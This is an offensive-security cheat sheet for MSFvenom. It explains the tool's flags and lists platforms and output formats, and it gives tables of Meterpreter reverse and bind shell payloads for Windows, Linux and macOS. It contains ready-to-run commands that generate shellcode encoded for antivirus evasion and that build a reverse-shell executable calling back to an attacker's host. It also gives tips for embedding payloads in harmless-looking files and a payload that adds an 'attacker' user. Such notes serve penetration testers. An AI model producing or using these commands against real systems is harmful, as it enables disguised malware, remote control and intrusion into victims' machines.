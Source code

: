 # MSFvenom

For generation of payload shellcode and encoder for AV evasion.

A sample of MSFvenom command to generate shellcode of the bind\_tcp payload as below:

`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python`

Architecture: `-a`

Platform: `--platform`

Payload to be use: `-p`

Encoding \(for AV evasion, often `x86/shikata_ga_nai` \): `-e`

Embed in non-malicious file by using a template: `-x`

Number of times to encode the payload: `-i`

Output format: `-f`

Help: `-h`

Variable \(default value is `buf`\): `-v`

Avoid bad character \(such as `'\x00'`\): `-b`

**List of Available Platform:**

```text
Cisco or cisco
OSX or osx
Solaris or solaris
BSD or bsd
OpenBSD or openbsd
hardware
Firefox or firefox
BSDi or bsdi
NetBSD or netbsd
NodeJS or nodejs
FreeBSD or freebsd
Python or python
AIX or aix
JavaScript or javascript
HPUX or hpux
PHP or php
Irix or irix
Unix or unix
Linux or linux
Ruby or ruby
Java or java
Android or android
Netware or netware
Windows or windows
mainframe
multi
```

**List of Available formats:** `-help-format`

```
asp, aspx, aspx-exe, dll, **elf**, elf-so, **exe**, **exe-only**, exe-service, exe-small,
hta-psh, loop-vbs, **macho**, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection,
psh-cmd, vba, vba-exe, vba-psh, vbs, war
```

Transform formats

```
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl,
powershell, ps1, py, python, raw, rb, ruby, sh,
vbapplication, vbscript
```

Typical payloads Sample command:

> msfvenom -p windows/meterpreter/reverse\_tcp LHOST=\(IP Address\) LPORT=\(Your Port\) -f exe &gt; reverse.exe

Windows \(`-f exe`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `windows/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `windows/meterpreter/bind_tcp` | RHOST, LPORT |
| Create User | `windows/adduser USER=attacker PASS=attacker@123` |  |
| CMD |  | LHOST, LPORT |
| Encoder | `-e shikata_ga_nai` |  |

Linux \(`-f elf`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `linux/x86/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `linux/x86/meterpreter/bind_tcp` | RHOST, LPORT |
| Generic Shell | `generic/shell_bind_tcp` | RHOST, LPORT |

Mac OS \(`-f macho`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `osx/x86/shell_reverse_tcp` | LHOST, LPORT |
| Bind Shell | `osx/x86/shell_bind_tcp` | RHOST, LPORT |

